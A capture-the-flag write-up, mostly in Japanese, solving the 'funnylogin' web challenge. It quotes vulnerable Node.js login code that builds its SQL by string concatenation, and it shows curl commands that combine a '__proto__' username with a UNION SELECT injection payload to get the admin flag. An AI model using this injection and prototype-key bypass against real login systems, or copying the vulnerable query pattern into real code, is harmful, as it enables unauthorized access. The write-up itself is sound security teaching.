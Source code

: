 # funnylogin:web:109pts
can you login as admin?  
NOTE: no bruteforcing is required for this challenge! please do not bruteforce the challenge.  
[funnylogin.mc.ax](https://funnylogin.mc.ax)  

[funnylogin.tar.gz](funnylogin.tar.gz)  

# Solution
URLとソースが渡される。  
アクセスするとただのログインフォームのようだ。  
![site.png](site/site.png)  
ソースを見るとapp.js主要部分は以下のようであった。  
```js
~~~
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex") }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u.pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
    const { user, pass } = req.body;

    const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
    try {
        const id = db.prepare(query).get()?.id;
        if (!id) {
            return res.redirect("/?message=Incorrect username or password");
        }

        if (users[id] && isAdmin[user]) {
            return res.redirect("/?flag=" + encodeURIComponent(FLAG));
        }
        return res.redirect("/?message=This system is currently only available to admins...");
    }
    catch {
        return res.redirect("/?message=Nice try...");
    }
});
~~~
```
自明なSQLiがある。  
ただし、`users[id] && isAdmin[user]`がtrueの場合のみadminになれるようだ。  
はじめに`isAdmin[user]`について考える。  
大量に作られたユーザの一つだけがランダムに`isAdmin`のキーとして追加されており、誰がadminであるのかわからない。  
ここで、`__proto__`や`toString`を`user`に指定すると`undefined`にならないことに気づく。  
残りの`users[id]`はSQLiのUNIONで適当な`id`を返してやればよい。  
以下のように行う。  
```bash
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=user&pass=pass"
Found. Redirecting to /?message=Incorrect%20username%20or%20password
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=__proto__&pass=' UNION SELECT id FROM users WHERE id = 1; -- satoki"
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
```
flagが得られた。  

## dice{i_l0ve_java5cript!}